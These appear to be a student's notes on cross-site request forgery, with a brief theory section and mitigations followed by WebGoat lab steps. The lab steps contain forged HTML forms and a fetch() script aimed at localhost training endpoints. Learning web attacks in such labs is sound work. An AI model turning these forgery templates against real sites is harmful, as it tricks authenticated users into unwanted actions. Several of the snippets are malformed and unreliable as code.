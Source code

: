 2019/11/05

# theory
cross site request forgery CSRF seasurf XRF
malicious website    perform an unwanted action     on a trusted website    user is authenticated

On one tab bank account authenticated on the other tab malicious website.
problem: an attacker makes a user perform a sensitive action on a trusted website whre he/she is authenticated to.

to mitigate this problem there are several techniques:
- use one time tokens
- use reCAPTCHAs
- prompt authentication for sensitive actions.



# lab
### solve homework-6
>ctrl + spacebar to write '\0' as one char

### exercises(webgoat) CSRF
##### ex 3
- click on the button; watch the action
- replicate the request with a form in a new file
```
<form action="http://localhost:8081/WebGoat/csrf/basic-get-flag" method="GET">
    <input name="csrf" value="false" type="hidden"
    <input name="submit" value="submitQuery"
    ...

```

##### ex 4
- similar to the previous one
```
<form action="http://localhost:8081/WebGoat/csrf/review" method="POST">
    <input id="reviewText" value="special" type="hidden">
    <input id="reviewStar" value="4" type="hidden">
    <input name="validateReq" value="21sdqd12esdq21ewqd" type="hidden">
    <input type="submit" name="submit" value="false">
```

##### ex 7
corse policy
```
<script type="text/javascript">
        fetch("http://localhost:8081/WebGoat/csrf/feedback/message",{
            method: "POST"
            headers {
                "content-type": "application/json"
            },
            body: '{'"name": "webgoat", "email" : "gen@gmail.com" '}'
        })
</script>
```

the result tell us that the corse policy is enable
so we will preform such code using the form.
- todo as homework-7